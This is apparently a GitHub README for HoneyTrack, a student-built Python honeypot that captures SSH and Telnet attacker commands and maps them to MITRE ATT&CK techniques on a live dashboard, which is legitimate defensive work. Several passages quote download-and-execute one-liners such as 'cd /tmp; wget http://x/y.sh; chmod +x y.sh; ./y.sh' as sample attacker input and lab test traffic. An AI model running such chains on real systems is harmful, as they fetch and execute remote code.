


# HoneyTrack

**A custom Python honeypot that captures real attacker behavior over SSH and Telnet, then automatically maps every command to the MITRE ATT&CK framework — visualized in a live SOC-style dashboard.**

Most student honeypot projects stop at deploying an off-the-shelf tool and dumping raw logs. HoneyTrack is built from scratch in Python and goes the whole distance: from a fake interactive shell, through automated threat classification, to a real-time analyst dashboard.



---

## Why I built it

I wanted a blue-team project that demonstrates I understand the *defender's* workflow end to end — not just running a tool, but turning raw attacker activity into structured threat intelligence. HoneyTrack lures attackers into a convincing fake Linux system, records everything they do, and answers the question a SOC analyst actually cares about: **what techniques is this attacker using, and how dangerous are they?**

---

## Key features

- **Dual-protocol capture** — Custom SSH (built on `asyncssh`) *and* Telnet (built on `asyncio`) honeypots, both funneling into a single shared session engine. The dashboard shows a live SSH-vs-Telnet breakdown.
- **Automatic MITRE ATT&CK mapping** — Every command an attacker runs is classified against a curated set of ATT&CK techniques and rolled up by tactic, so you see the attacker's intent (Discovery, Execution, Persistence, etc.) at a glance.
- **Compound-command kill-chain parsing** — Real attackers paste chained one-liners like `cd /tmp; wget http://x/y.sh; chmod +x y.sh; ./y.sh`. HoneyTrack splits these (quote-aware) at both the shell layer *and* the analysis layer, so each step is executed convincingly and mapped to its own technique.
- **Convincing fake shell** — A simulated filesystem responds to `ls`, `cat /etc/passwd`, `uname`, `whoami`, and more, keeping attackers engaged long enough to reveal their full playbook.
- **Behavioral event logging** — Beyond raw commands, HoneyTrack flags downloads, dropped files, permission changes, and persistence attempts as discrete, structured events.
- **IOC enrichment** — Source IPs can be enriched against AbuseIPDB and VirusTotal to produce a risk score, country, and ISP (populates with real data on public deployment).
- **Live SOC dashboard** — A dark, real-time Flask + Chart.js dashboard: stat cards, an ATT&CK tactics donut, a top-techniques chart, the protocol split, a top-attackers table, and the most-run commands. Auto-refreshes every 15 seconds.

---

## Architecture

```
   [ Attacker ]
        │  SSH (2222)  /  Telnet (2323)
        ▼
┌───────────────────────────────────────┐
│            Honeypot Listeners          │
│   ssh_honeypot.py   telnet_honeypot.py │
└───────────────────────┬────────────────┘
                        │  raw bytes
                        ▼
              ┌─────────────────────┐
              │   SessionHandler     │   ← shared fake shell + logging
              │   (fake_fs, split    │     (compound-command aware)
              │    compound commands)│
              └──────────┬───────────┘
                         │  structured JSON logs
                         ▼
        ┌────────────────────────────────────┐
        │              Analysis              │
        │  log_parser → attack_classifier    │  ← MITRE ATT&CK mapping
        │  profile_generator                 │
        └──────────────┬─────────────────────┘
                       │
              ┌────────▼─────────┐
              │  IOC Enrichment   │  ← AbuseIPDB + VirusTotal
              └────────┬─────────┘
                       │
              ┌────────▼─────────┐
              │  Flask Dashboard  │  ← live SOC view (Chart.js)
              └──────────────────┘
```

A single `python3 main.py` launches the SSH listener, the Telnet listener, and the dashboard together.

---

## Tech stack

| Area | Tools |
|------|-------|
| Language | Python 3.10+ |
| SSH server | `asyncssh` |
| Telnet server | `asyncio` (raw `start_server` + IAC negotiation handling) |
| Web / dashboard | Flask, Chart.js |
| Enrichment | AbuseIPDB, VirusTotal APIs |
| Lab | VirtualBox (Ubuntu honeypot VM + Kali attacker VM) |

---

## Screenshots

**Live dashboard** — ATT&CK tactics, top techniques, and the SSH-vs-Telnet protocol split:


**Captured commands** — including compound kill-chains, demonstrating the command parser in action:



---

## How it works

**The shared session engine.** Both the SSH and Telnet listeners hand their byte streams to one `SessionHandler`. This means the fake shell, the command dispatcher, the compound-command splitting, and all logging behave identically no matter how the attacker connected — and adding a new protocol in future is mostly transport plumbing.

**Compound-command handling.** A naive honeypot treats `cd /tmp; wget evil.sh; chmod +x evil.sh` as a single broken command — which instantly tips off a savvy attacker. HoneyTrack splits command lines on `;`, `&&`, `||`, `|`, and `&` (while respecting quotes), executes each sub-command in sequence, and classifies each independently. This both improves realism and ensures the full kill chain is mapped, not just its first step.

**MITRE ATT&CK classification.** Attacker commands are matched against a JSON-defined set of behavioral patterns, each tied to an ATT&CK technique ID, name, and tactic. Results are de-duplicated per session and aggregated by tactic, producing the breakdown shown on the dashboard.

**Enrichment & profiling.** Each unique source IP can be enriched (AbuseIPDB + VirusTotal) and combined with its observed techniques to generate a per-attacker profile with a risk score.

---

## MITRE ATT&CK coverage

A representative sample of the techniques HoneyTrack detects:

| Tactic | Technique |
|--------|-----------|
| Initial Access | T1078 — Valid Accounts |
| Execution | T1059.004 — Unix Shell · T1059.006 — Python |
| Discovery | T1082 — System Information · T1083 — File & Directory · T1033 — System Owner/User · T1087.001 — Local Account · T1016 — Network Config |
| Defense Evasion | T1222.002 — File Permissions · T1070.003 — Clear Command History |
| Persistence | T1053.003 — Cron · T1098.004 — SSH Authorized Keys · T1136.001 — Create Account |
| Command & Control | T1105 — Ingress Tool Transfer |
| Impact | T1496 — Resource Hijacking |

---

## Setup

```bash
# Clone
git clone https://github.com/Tauqeerkhan187/HoneyTrack.git
cd HoneyTrack

# Virtual environment
python3 -m venv .venv
source .venv/bin/activate

# Dependencies
pip install -r requirements.txt

# API keys (optional — enables IOC enrichment)
cp config_local.example.py config_local.py
#   then add your AbuseIPDB and VirusTotal keys

# Run everything (SSH + Telnet + dashboard)
python3 main.py
```

Then open the dashboard at **http://localhost:5000**.

| Service | Port |
|---------|------|
| SSH honeypot | 2222 |
| Telnet honeypot | 2323 |
| Dashboard | 5000 |

> Ports 2222/2323 are used so the honeypot can run without root. To expose the standard `:22`/`:23`, use a firewall redirect rather than running as root.

### Generating test activity

From a separate machine (e.g. a Kali VM on the same host-only network):

```bash
ssh root@<honeypot-ip> -p 2222      # any password is accepted
telnet <honeypot-ip> 2323           # any login is accepted
```

Try a few commands — `whoami`, `cat /etc/passwd`, `cd /tmp; wget http://example.com/x.sh; chmod +x x.sh` — and watch the dashboard update live.

---

## Limitations & safe-deployment notes

HoneyTrack was developed and tested in an **isolated VirtualBox lab** (a dedicated honeypot VM and a Kali attacker VM on a host-only network). This was a deliberate design choice, not a shortcut.

A honeypot is intentionally attractive to attackers, and capturing live payloads on an internet-facing host carries real risk: it must be run with least privilege, sandboxed, and — critically — given default-deny egress so a captured payload can never beacon out or be used to attack others. Standing that up *safely* is a substantial piece of work in its own right. Rather than risk a misconfiguration on a live host, I scoped this project to a controlled lab where I could build and demonstrate the full capture-to-analysis pipeline without that exposure.

The codebase is architected with that future hardening in mind. On a properly hardened public deployment, the IOC enrichment and geolocation fields (which show `n/a` for private lab IPs) would populate with real data.

---

## Roadmap

Potential extensions, gated behind safe public deployment:

- [ ] Hardened VPS deployment (non-root, sandboxed, default-deny egress)
- [ ] Live geographic attack map (needs real, routable attacker IPs)
- [ ] Dropped-payload capture with SHA-256 hashing and VirusTotal hash lookups
- [ ] Per-protocol technique breakdown

---

## License

MIT